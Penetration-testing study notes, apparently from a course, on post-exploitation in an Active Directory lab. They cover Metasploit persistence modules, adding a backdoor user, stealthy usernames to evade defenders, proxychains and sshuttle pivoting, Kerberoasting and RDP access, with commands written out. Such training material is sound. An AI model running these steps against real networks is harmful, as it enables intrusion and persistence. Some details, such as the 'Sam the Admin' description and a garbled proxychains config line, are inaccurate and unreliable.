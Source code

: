 ## 🛠️ Post Exploitation

### 📝 Summary

**Post-exploitation** focuses on maintaining control of a compromised system, pivoting to access other network segments, and identifying critical vulnerabilities. It includes techniques like adding persistent users, using scheduled tasks, and employing tools like **proxychains** and **sshuttle** to pivot through different networks. Always remember, exploiting known vulnerabilities like **ZeroLogon** and **PrintNightmare** requires explicit client approval.

### 📋 Detailed Notes

### 1. **Active Directory Vulnerabilities Overview** 🛡️

- **Active Directory (AD)** is often vulnerable to several exploits. Some notable examples:
    - **ZeroLogon**: Allows an attacker to take over a domain controller using the Netlogon protocol.
    - **PrintNightmare**: Exploits the Windows Print Spooler to perform remote code execution.
    - **Sam the Admin**: A vulnerability in Windows registry permissions that allows attackers to extract **SAM** (Security Account Manager) files.
- **⚠️ Important:** Check for these vulnerabilities during assessments, but **only exploit them** with **client approval**.

### 2. **Maintaining Access Overview** 🔒

**Persistence** is critical to maintain control over a compromised system. Here are several methods to achieve persistence:

### **1. Using Persistence Scripts:**

- **Metasploit Modules** provide automated ways to establish persistent access:
    - To view available options:
        
        ```bash
        run persistence -h
        
        ```
        
    - Common persistence modules:
        - `exploit/windows/local/persistence`
        - `exploit/windows/local/registry_persistence`

### **2. Scheduled Tasks:**

- Use scheduled tasks to maintain access:
    
    ```bash
    run scheduleme
    run schtaskabuse
    
    ```
    
    - **💡 Tip:** Scheduled tasks allow the attacker to execute commands or scripts at specified intervals.

### **3. Adding a User:**

- Create a new user to retain access:
    
    ```bash
    net user hacker password123 /add
    
    ```
    
- **🚨 Critical Note:** If you create a new user, consider using stealthy usernames to avoid detection.

### 3. **Pivoting Overview** 🔄

- **Pivoting** allows attackers to move from one compromised system to another, exploring additional network segments.
- Example Scenario: Accessing an **Ubuntu Linux machine** with the IP addresses **10.10.155.5** (direct access) and **10.10.10.5/24** (target network). To reach **10.10.10.5**, a pivot is required.

### **Step-by-Step Pivoting Guide:**

**1. Identify the Network Route:**

- Check available IP addresses on the compromised machine:
    
    ```bash
    ip a
    
    ```
    
- If you cannot directly ping the target network:
    
    ```bash
    ping 10.10.10.5
    
    ```
    
    - You need to set up a route to pivot into the network.

**2. Find Proxychains Port Configuration:**

- Check the configuration file to find the port number for **proxychains**:
    
    ```bash
    cat /etc/proxychains4.conf
    
    ```
    
    - Look for the line: `socks4 127.0.0.1 [port] 9050`.

**3. Establish an SSH Tunnel:**

- Set up an SSH tunnel that allows you to pivot into the target network:
    
    ```bash
    ssh -f -N -D [port] -i pivot root@10.10.155.5
    
    ```
    
    - **Explanation:** This command sets up a background tunnel that routes traffic through the compromised machine.

**4. Use Proxychains for Scanning and Attacks:**

- Open a new terminal tab and run a **proxychains Nmap** scan:
    
    ```bash
    proxychains nmap -p88 10.10.10.255
    
    ```
    
    - **💡 Tip:** If the scan fails, add the `sT` flag to perform a full TCP connect scan.
- Perform a **Kerberoasting Attack**:
    
    ```bash
    proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 10.10.10.225 -request
    
    ```
    
    - This command requests Kerberos tickets, which can be cracked offline to reveal plaintext passwords.
- **Accessing Machines via RDP (Remote Desktop Protocol):**
    
    ```bash
    proxychains xfreerdp /u:administrator /p:'Hacker321' /v:10.10.10.225
    
    ```
    
    - This allows you to remotely access the target machine using RDP through the proxy.
- **Access Other Services:**
    - Use **Firefox** through the proxy:
        
        ```bash
        proxychains firefox
        
        ```
        

**5. Pivoting with `sshuttle`:**

- Use `sshuttle` to access an entire network through an SSH tunnel:
    
    ```bash
    sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot"
    
    ```
    
    - **💡 Ignore errors** from this command; it is normal during setup.
- **Now, perform Nmap scans** on the new network:
    
    ```bash
    nmap 10.10.10.225 -p88
    
    ```
    
    - With `sshuttle`, you can communicate directly with the target network.

### 📖 Abbreviations & Definitions

- **ZeroLogon**: A vulnerability that allows an attacker to gain control of a domain controller through the Netlogon protocol.
- **PrintNightmare**: A remote code execution vulnerability in the Windows Print Spooler service.
- **Persistence**: Techniques used by attackers to maintain access to a compromised system.
- **Proxychains**: A tool that routes network connections through proxy servers, used for pivoting into different network segments.
- **Pivoting**: Using a compromised system to access and explore other network segments.
- **Kerberoasting**: An attack that extracts Kerberos service tickets for offline cracking to reveal plaintext passwords.
- **sshuttle**: A tool that creates an encrypted SSH tunnel to route traffic between networks.

### 🚨 Critical Mentions & Exam Traps

- **🚨 Permission is Crucial:** Always obtain **explicit client approval** before exploiting vulnerabilities like **ZeroLogon** or **PrintNightmare**.
- **💡 Use `sT` Flag with Nmap:** If a `proxychains nmap` scan is unsuccessful, adding the `sT` flag can help perform a more reliable scan.
- **🔑 Add Users with Stealth:** When adding a user for persistence, use inconspicuous usernames to avoid detection by security teams.
- **⚠️ Proxychains Configuration:** Always verify the **proxychains4.conf** file for the correct port to avoid tunneling issues.
- **🔄 Pivoting Tactics:** Remember that `sshuttle` and `proxychains` are both effective tools for pivoting. Choose the appropriate one based on the scenario.

---